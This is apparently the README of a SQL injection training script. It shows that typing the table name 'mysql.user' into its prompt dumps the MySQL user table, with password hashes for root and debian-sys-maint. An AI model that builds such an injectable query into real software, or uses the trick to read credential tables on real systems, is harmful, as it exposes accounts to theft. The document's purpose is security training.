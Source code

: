 # Manual sql_injection

This project is part of sql injection training proving the creation of queries accesing tables not stablished in the program according the configuration

# Usage

- ./sqlinj.py

- output

Tabla para seleccionar datos:

- type any information according the database selected

- input 1

levels

- output 1

((1, 'low'),)

- input 2 

(just enter (empty))

- output 2

No debes dejar en blanco este campo
Tabla para seleccionar datos:


- input 3

mysql.user

- output 3

(('localhost', 'root', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', b'', b'', b'', 0, 0, 0, 0, 'mysql_native_password', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'N', datetime.datetime(2020, 8, 17, 2, 26, 18), None, 'N'), ('localhost', 'mysql.session', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'Y', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', '', b'', b'', b'', 0, 0, 0, 0, 'mysql_native_password', '*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE', 'N', datetime.datetime(2020, 8, 17, 1, 1, 44), None, 'Y'), ('localhost', 'mysql.sys', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', 'N', '', b'', b'', b'', 0, 0, 0, 0, 'mysql_native_password', '*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE', 'N', datetime.datetime(2020, 8, 17, 1, 1, 44), None, 'Y'), ('localhost', 'debian-sys-maint', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', b'', b'', b'', 0, 0, 0, 0, 'mysql_native_password', '*2F69D97C36C8E113132C2B0ADA9CC82A39F64AF9', 'N', datetime.datetime(2020, 8, 17, 1, 1, 46), None, 'N'))

